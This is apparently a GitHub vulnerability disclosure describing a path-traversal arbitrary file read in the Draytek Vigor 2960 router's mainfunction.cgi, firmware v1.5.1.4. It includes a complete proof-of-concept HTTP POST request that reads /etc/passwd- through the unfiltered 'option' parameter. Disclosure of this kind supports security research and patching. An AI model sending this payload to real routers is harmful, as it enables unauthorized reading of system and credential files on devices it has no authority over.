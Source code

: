 # Draytek vigor 2960 v1.5.1.4 has arbitrary file read vulnerability

## OverView

Product: Draytek Vigor 2960 v1.5.1.4(the newest version)
Firmware: v1.5.1.4 https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Detail  

The vulnerability is in the file `mainfunction.cgi`, function `sub_1DF14`

It doesn’t filter the var `option`, so we can use `/../`to read arbitrary file.

![image-20230218203912092](images/image-20230218203912092.png)

## poc 

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxxxxxxx
Content-Length: 61
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: xxxxxxxx
Referer: xxxxxxxxxx
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: SESSION_ID_VIGOR=7:26EB81E4EA6DC603661320EBD1C938DC
Connection: close

action=doCfgExport&option=/../etc/passwd-&rtick=1663484341535
```



![image-20230218203937963](images/image-20230218203937963.png)